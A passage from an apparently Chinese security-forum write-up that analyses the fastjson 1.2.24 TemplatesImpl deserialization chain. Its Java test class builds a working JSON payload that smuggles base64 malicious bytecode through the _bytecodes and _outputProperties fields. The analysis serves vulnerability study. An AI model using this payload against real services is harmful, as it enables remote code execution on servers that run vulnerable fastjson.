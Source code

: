 2)、当解决了上面第一个问题的时候，1、&gt;什么时候会调用TemplatesImpl的getTransletInstance()方法？2、&gt;关注点聚焦于`_bytecodes`属性如何设置为我们恶意对象class的字节码？

1、&gt;在TemplatesImpl类中的newTransformer()方法中调用了`getTransletInstance()`方法:  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-bc5545865382a48e57d17c1a3c54033379a46319.png)  
而newTransformer()方法又被TemplatesImpl类里面的` getOutputProperties()`方法调用：  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-b769ea6180602b1989df82ad6cba16a1ec7fd1c2.png)  
那什么时候会调用getOutputProperties()方法呢？  
**此时回想以下我们fastjson在反序列化的时候的特殊性：**  
fastjson反序列化将json还原成对象的时候，会触发其对象的成员属性的set方法，以及部分成员属性的get方法，get方法的触发条件是：

```php
只存在getter方法，无settet方法。  
方法名称长度大于4。
非静态方法。
方法名以get开头，且第四个字符为大写字母。
方法不用传入参数。
方法的返回值继承自 Collection、Map、AtomicBoolean、AtomicInteger 和AtomicLong的其中一个。
```

而上文提到的`getOutputProperties()`方法返回对象为Properties对象，该对象继承HashTable，而HashTable实现了Map接口。符合条件。所以payload中要设置`_outputProperites`就会触发调用链。

2、&gt;在payload中设置`_bytecodes`为恶意类class文件的字节码base64编码文件。

### 静态分析最后一个大问题

TemplateImapl中的只有属性变量`_outputProperties`没有属性`outputProperties`，所以调用的方法应该是`get_outputProperties`，那怎么办呢？

fastjson中反序列化的时候，会调用javabeanDeserialze类里面的deserialze（）方法，其中会调用`parseField（）`

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-24b22a53d610d481ba8b2997c8d589a1d552ca59.png)  
在parseField()方法里面调用了自身类里面的`SmartMatch()`方法  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-939f81babb144d5c737f06c9fd7741d306e36296.png)  
该方法里面会对payload传入的属性进行一些操作，其中包括：发现以`_`开头的Filed（属性方法），会将`_`干掉。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-72d7e6a0e44745ecd0f9538fa0b7c8145c36c364.png)  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-9adddf2395e664851445a8a4437a5efb1aaad53b.png)  
所以这个问题就解决了！！！

动态调试：
-----

### 代码：

#### 漏洞触发测试类：

```java
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.Feature;  

public class fastjson124 {  
    public static void main(String[] args) {  

        EvalClastoBytes evalClastoBytes = new EvalClastoBytes();  
 String NASTY_CLASS="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";  
 String evilCode = evalClastoBytes.Starts(EvalClassforfastjsonTemplateImpl.class);  
 String payload2 = "{\"@type\":\"" + NASTY_CLASS +  
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b',\"_outputProperties\":{ }}";  
 /*  
 TemplatesImpl调用链  
 是否支持此调用链的关键就是在调用fastjson还原json为对象的时候带上Feature.SupportNonPublicField这个属性，因爲payload中的_bytecodes、_name屬性為私有屬性。 
 Feature.SupportNonPublicField这个属性在1.2.22版本才引入的，在1.2.25版本就被修复  
```